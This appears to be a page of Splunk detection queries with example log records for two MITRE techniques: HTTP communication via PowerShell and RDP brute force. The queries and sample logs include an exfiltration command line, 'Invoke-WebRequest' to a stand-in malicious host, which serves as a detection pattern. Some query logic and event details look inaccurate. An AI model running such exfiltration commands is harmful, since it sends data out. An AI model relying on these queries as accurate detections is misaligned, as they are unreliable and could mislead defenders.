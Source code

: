 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="SYSTEM"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 20:00:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "SYSTEM",
  "Source_Network_Address": "192.168.56.126",
  "DestinationPort": "80"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 73"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="testuser"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 20:05:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 73",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "testuser",
  "Source_Network_Address": "192.168.56.103",
  "DestinationPort": "3389"
}
```

---